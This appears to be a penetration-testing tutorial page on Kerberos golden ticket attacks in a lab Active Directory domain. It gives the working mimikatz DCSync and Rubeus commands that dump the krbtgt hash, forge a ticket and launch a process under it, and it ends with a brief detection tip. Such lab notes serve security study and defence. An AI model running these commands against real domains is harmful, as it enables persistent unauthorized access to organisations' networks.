 # Golden Tickets

A golden ticket is a type of attack where an attacker forge the TGT with a lifetime that does not expire. In essence, the attacker gains long-term access to a network by creating a TGT that appears to be legitimate. The golden ticket is signed by the krbtgt account thus it can be use to impersonate any user to any services or any machines within the domain.

### Attack Prerequisites

* Domain admin privilege
* Access to krbtgt password hash

### Purpose of Golden Ticket

The golden ticket attack is a post exploitation attack where an attacker has already compromise the domain admin account. It is primarily **used for host persistence** instead of privilege escalation.

With a golden ticket, attacker can persistently impersonate any user within the domain even if the compromised domain admin account credentials are updated or revoked.

### Exploit

```shell
mimikatz # lsadump::dcsync /domain:santaa.com /user:SANTAA\krbtgt
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/v5I2Hj6WU16k05UG-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe golden /aes256:[aes256_hmac] /user:"hui ann" /domain:santaa.com /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/tJTOwLeDDEw2mbWl-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:santaa /username:"hui ann" /password:ahahaa /ticket:[your ticket]
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/P9ycWqg18FAX29wo-image.png" alt=""><figcaption></figcaption></figure>

The process is successfully created:

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/e5P6sk7cofmJbqlu-image.png" alt=""><figcaption></figcaption></figure>

### **Attack Detection**

A Golden Ticket attack can be easily identify by looking for TGS-REQs that have no corresponding AS-REQ.
